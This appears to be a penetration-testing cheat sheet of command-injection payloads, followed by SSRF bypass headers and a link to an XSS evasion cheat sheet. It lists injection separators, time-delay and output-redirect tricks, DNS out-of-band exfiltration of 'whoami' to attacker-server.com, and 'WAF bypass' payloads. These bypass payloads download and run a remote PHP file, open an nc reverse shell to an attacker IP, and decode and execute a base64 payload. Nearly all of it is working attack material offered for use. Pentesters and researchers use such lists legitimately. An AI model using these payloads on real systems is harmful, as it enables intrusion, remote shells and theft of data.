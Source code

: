 Useful Commands: Linux

```bash
whoami
ifconfig
ls
uname -a
```

Useful Commands: Windows

```powershell
whoami
ipconfig
dir
ver
```

Both Unix and Windows

```
ls||id; ls ||id; ls|| id; ls || id 
ls|id; ls |id; ls| id; ls | id 
ls&&id; ls &&id; ls&& id; ls && id 
ls&id; ls &id; ls& id; ls & id 
ls %0A id
```

Time Delay Commands
```bash
& ping -c 10 127.0.0.1 &
```

Redirecting Output
```bash
& whoami > /var/www/images/output.txt &
```
OOB (Out Of Band) Exploitation
```bash
& nslookup attacker-server.com &
& nslookup `whoami`.attacker-server.com &
```
WAF Bypasses
```bash
vuln=127.0.0.1 %0a wget https://evil.txt/reverse.txt -O 
/tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash <attacker-ip> <attacker-port>
vuln=echo PAYLOAD > /tmp/payload.txt; cat /tmp/payload.txt | base64 -d > /tmp/payload; chmod 744 /tmp/payload; /tmp/payload
```

XSS Cheat Sheet:

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

SSRF Bypasses:

```
Base-Url: 127.0.0.1
Client-IP: 127.0.0.1
Http-Url: 127.0.0.1
Proxy-Host: 127.0.0.1
Proxy-Url: 127.0.0.1
Real-Ip: 127.0.0.1
Redirect: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
Refferer: 127.0.0.1
Request-Uri: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
```